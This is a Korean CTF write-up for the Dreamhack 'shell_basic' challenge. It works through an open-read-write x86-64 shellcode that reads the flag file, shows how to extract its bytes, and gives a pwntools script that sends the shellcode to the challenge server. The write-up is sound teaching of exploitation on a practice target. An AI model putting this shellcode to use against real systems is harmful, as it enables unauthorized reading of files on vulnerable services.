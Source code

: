 # [Dreamhack] shell_basic

---

## **문제 설명**

## **Description**

- **입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.
`main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.**
- **flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.**
- 해당 문자열을 리틀엔디안 형식으로 작성하면 다음과 같다.
    - 676E6F6F6F6F6F6F
    - 6C5F73695F656D61
    - 6E5F67616C662F63
    - 697361625F6C6C65
    - 68732F656D6F682F

### 1. 해당 문자열을 참조한 orw 셸코드를 작성하면 아래와 같다.

```c
// File name: shell_basic.c
// Compile: gcc -o shell_basic shell_basic.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    
    "push 0x0\n"      # push 전에 null 값을 넣어주어야함.
    "mov rax, 0x676E6F6F6F6F6F6F \n"
    "push rax\n"
    "mov rax, 0x6C5F73695F656D61 \n"
    "push rax\n"
    "mov rax, 0x6E5F67616C662F63 \n"
    "push rax\n"
    "mov rax, 0x697361625F6C6C65 \n"
    "push rax\n"
    "mov rax, 0x68732F656D6F682F \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = '/home/shell_basic/flag_name_is_loooooong'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1        # rdi = 1 ; fd = stdout\n"
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n"
    "\n"
    "xor rdi, rdi      # rdi = 0\n"
    "mov rax, 0x3c	   # rax = sys_exit\n"
    "syscall		   # exit(0)");

void run_sh();

int main() { run_sh(); }
```

### 2. 오브젝트 파일로 컴파일

```c
gcc -c -o shell_basic.o shell_basic.c -masm=intel
```

```c
objdump -d shell_basic.o // 디버깅
```

### 3. 바이너리 코드 추출

- 오브젝트 파일에서 `.text` 섹션을 추출하여 바이너리 파일로 저장합니다.

```c
objcopy --dump-section .text=shell_basic.bin shell_basic.o
```

### 4. 바이너리 코드 변환(추출)

- 바이너리 파일을 헥사 문자열로 변환하고 쉘코드 형식으로 변환합니다.

```c
xxd -p shell_basic.bin | tr -d '\n' | sed 's/../\\x&/g'
```

- 변환된 문자열에 `main` 함수에 헥사값도 포함이 되었음, 해당 부분을 삭제해주어야함

![Untitled](%5BDreamhack%5D%20shell_basic%201069fc81cb484dbb921219115ac6e7bd/Untitled.png)

```c
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
```

### 5. Python Exploit 함수 작성

- 추출한 쉘코드 문자열로 Exploit을 시도 아래와 같이 `Flag` 를 획득해볼 수 있습니다.
- 입력한 `shellcode` 앞에 문자열과 바이트를 구분하기 위해 `b` 를 추가해줘야함

```c
from pwn import *

context.arch="amd64"

p = remote('host3.dreamhack.games', 11881)
shellcode=b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendlineafter('shellcode:',shellcode)
data=p.recvline()
print(data)

```

![Untitled](%5BDreamhack%5D%20shell_basic%201069fc81cb484dbb921219115ac6e7bd/Untitled%201.png)